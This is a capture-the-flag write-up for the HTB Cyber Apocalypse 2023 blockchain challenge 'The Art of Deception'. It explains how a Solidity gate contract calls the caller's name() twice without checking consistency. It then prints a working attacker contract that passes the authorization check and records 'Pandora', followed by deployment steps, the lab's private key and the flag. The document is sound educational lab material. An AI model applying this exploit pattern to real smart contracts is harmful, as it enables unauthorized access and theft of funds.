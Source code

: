 # Cyber Apocalypse 2023

## The Art of Deception

> Your cyborg abilities are not always the most effective tools for achieving your goals. Sometimes, you need to go unnoticed and blend in with your surroundings. To achieve this, you must learn to assume new identities and blend in with different groups of people. Mastering the art of deception requires subtlety, observation, and the ability to read people's motivations and intentions. After completing this training, you will emerge as a skilled infiltrator, capable of seamlessly blending in with your surroundings and achieving your objectives with stealth and subtlety. Can you bypass the High Security Gate and sneak into the Fortified Perimeter?
>
>  Readme Author: [sirius-a](https://sirius-a.github.io/ctf-writeups/2023/HTB-cyber-apocalypse)
>
> [`blockchain_the_art_of_deception.zip`](blockchain_the_art_of_deception.zip)

# Environment
```
IP1=159.65.62.241:31090
IP2=159.65.62.241:32094
```
Connect to IP2 to get the connection details:

```
$ nc 165.232.108.200 32094
1 - Connection information
2 - Restart Instance
3 - Get flag
action? 1

Private key     :  0xaed670f921dc66aa949185dac3a38f78638807bb0932b0340473203431678123
Address         :  0xD91878cAF52230be2645862A639487953a04Dadd
Target contract :  0x5337a93f98ae379b878fB4969Ec9370B83CF5618
Setup contract  :  0x7B59De9FdAd4b0A4B0366677A971A41E24132DBF
```
# Win Condition (Study the Smart Contract)
In the Setup contract we see that in order to solve this challenge, the last person to enter a high security gate needs to be named "Pandora".
```
function isSolved() public view returns (bool) {
  return TARGET.strcmp(TARGET.lastEntrant(), "Pandora");
}
```
The Smart Contract ensures, that we shoot these shots in order (first, second, third). Info modifier
```
pragma solidity ^0.8.18;


interface Entrant {
    function name() external returns (string memory);
}

contract HighSecurityGate {

    string[] private authorized = ["Orion", "Nova", "Eclipse"];
    string public lastEntrant;

    function enter() external {
        Entrant _entrant = Entrant(msg.sender);

        require(_isAuthorized(_entrant.name()), "Intruder detected");
        lastEntrant = _entrant.name();
    }

    function _isAuthorized(string memory _user) private view returns (bool){
        for (uint i; i < authorized.length; i++){
            if (strcmp(_user, authorized[i])){
                return true;
            }
        }
        return false;
    }

    function strcmp(string memory _str1, string memory _str2) public pure returns (bool){
        return keccak256(abi.encodePacked(_str1)) == keccak256(abi.encodePacked(_str2)); 
    }
}
```
After studying the Smart Contact in detail, we find the vulnerability is most likely in the enter function:
```
function enter() external {
  Entrant _entrant = Entrant(msg.sender);

  require(_isAuthorized(_entrant.name()), "Intruder detected");
  lastEntrant = _entrant.name();
}
```
The entrant is set to a value we have control over. It is derived from msg.sender. In Solidity msg.sender means the "The entity that sent me this request". So we can manipulate the \_entrant.name() by creating a Smart Contact that interacts with the HighSecurityGate Contract:
```
pragma solidity ^0.8.18;

# Copied from HighSecurityGate
interface Entrant { 
    function name() external returns (string memory);
}

contract Attacker is Entrant {
  bool public firstCheck = true;
  string public _name = "Orion";

  function name() external returns (string memory){
    return _name;
  }

}
```
To call the already deployed Smart Contract, I followed the example from here: https://solidity-by-example.org/calling-contract/.

Lets add a method with a parameter pointing to the TARGET contract and call enter() on it:
```
import {HighSecurityGate} from "./FortifiedPerimeter.sol";

function callSecGate(HighSecurityGate _gate) external {
  _gate.enter();
}
```
With this we can access the Gate as "Orion".

# Prepare the Exploit
If we look at the HighSecurityGate again, we notice that \_entrant.name() is called two separate times.

```
require(_isAuthorized(_entrant.name()), "Intruder detected");
lastEntrant = _entrant.name();
```
Once to check if the entrant is authorized and once again to save the name of the last person that entered the gate. Notice that there is no check if \_entrant.name() returns the same value twice. This is our attack vector >:D.

We adjust our Attacker smart contact so name return something different the second time it is called.
```
pragma solidity ^0.8.18;

interface Entrant {
    function name() external returns (string memory);
}

import {HighSecurityGate} from "./FortifiedPerimeter.sol";

contract Attacker is Entrant {
  bool public firstCheck = true;

  function name() external returns (string memory){
    if (firstCheck){
      firstCheck = false;
      return "Orion";
    }
    return "Pandora";
  }

  function callSecGate(HighSecurityGate _gate) external {
    _gate.enter();
  }

  // Just in case
  function reset() external {
   firstCheck = true;
  }
}
```
# Execute the Plan
To compile and deploy our Attacker Contact, I used the Remix VSCode extension.

![](use-compile-and-deploy.png)

First we connect to the RPC IP given to us by HTB (IP1 from above):

![](set-rpc-connection.png)

Then we compile the Smart Contract and deploy it on the blockchain.

![](compile-and-deploy-in-remix.png)

To execute our attack, we supply the target address to our callSecGate() method.

![](call-attack-function.png)

Result:
![](attack-transaction-ok.png)

With this we can collect our reward:
```
nc 159.65.62.241 32094
1 - Connection information
2 - Restart Instance
3 - Get flag
action? 3
HTB{H1D1n9_1n_PL41n_519H7}
```